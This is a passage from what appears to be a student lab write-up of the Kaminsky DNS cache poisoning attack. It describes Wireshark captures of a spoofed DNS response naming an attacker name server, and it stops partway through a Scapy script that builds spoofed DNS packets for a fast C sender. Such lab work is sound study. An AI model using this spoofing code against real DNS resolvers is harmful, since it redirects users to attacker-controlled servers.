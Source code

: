- ![wireshark spoofe response](images/wireshark-spoofed-response.png)

- We see that in wireshark, the spoofed DNS response is sent from the ip addresses of the legitimate authoritative name servers, `199.43.135.53` and `199.43.133.53` to our local DNS server at `10.9.0.53` as per our code above, though it is replying to no one.
- We also see that the response announces that the authoritative name server for `example.com` is `ns.attacker32.com` which is our attacker's name server, as per the NS record in our code above.
- The response also contains an A record for `www.example.com` which points to `1.2.3.5` as per the A record in our code above.

## Task 4 Launching the Kaminsky Attack
- We will combine the code from task 2 and task 3 to launch the Kaminsky attack, together with the C code provided since python is too slow to carry out this attack.
- We will first use the python script an scapy to generate a DNS packet template, then store it in a file, then load this template into the C program, make some changes to the fields then send the packets out as fast as possible.
- We use this `dns_temaplate.py` code below to generate the DNS request and spoofed response packets, then store them in `ip_req.bin` and `ip_resp.bin` files respectively.
- ```python
    from scapy.all import *
    import random

    spoof_vm_ip = '10.9.0.1' #spoofed ip
    local_dns_ip = '10.9.0.53' # ip of local dns server, this is not the attacker dns server
    ns_ip_addrs = ['199.43.135.53', '199.43.133.53'] # ip addresses of authoritative name servers for example.com
    domain = 'example.com' 
    name = 'aaaaa.example.com'
    ns_attacker = 'ns.attacker32.com' # attacker name server
    port = RandShort() # random source port
    # DNS query
    Qdsec = DNSQR(qname=name) # DNS Question Record, asking for example.com
    dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
    ip = IP(dst= local_dns_ip , src= spoof_vm_ip) # IP layer, set destination to local dns server and source to attacker vm
    udp = UDP(dport=53, sport=33333, chksum=0) # UDP layer, set destination port to 53 (dns port) and source port to random short